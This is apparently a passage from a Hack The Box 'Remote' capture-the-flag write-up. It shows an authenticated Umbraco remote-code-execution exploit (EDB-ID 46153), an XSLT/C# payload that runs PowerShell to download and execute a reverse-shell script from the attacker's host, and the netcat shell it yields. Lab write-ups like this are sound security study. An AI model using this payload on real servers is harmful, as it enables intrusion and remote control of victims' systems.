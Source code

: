 The file is blocked. I remember seeing an authenticated RCE exploit for Umbraco earlier, taking a look at that.

Confirmed code execution with EDB-ID 46153 and the following payload

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \    
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \    
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\    
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \    
{ string cmd = "10.10.14.187"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "ping"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\  
 </xsl:template> </xsl:stylesheet> ';
```

Got the target to download a reverse shell by modyifing the command on the above payload to the following:

```
string cmd = "Invoke-WebRequest \'http://10.10.14.187:8000/montysecurity.ps1\'"
```

Could not manually execute the ps1 script so I used IEX instead and got on the box

```
┌─[monty@parrot]─[~/ctfs/htb/boxes/remote]
└──╼ $sudo nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.14.187] from (UNKNOWN) [10.10.10.180] 49700
whoami
iis apppool\defaultapppool
# hostname
remote
```

Payload used:
```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \                                     
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.14.187:8000/montysecurit
y.ps1\')"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';
```

## Privilege Escalation
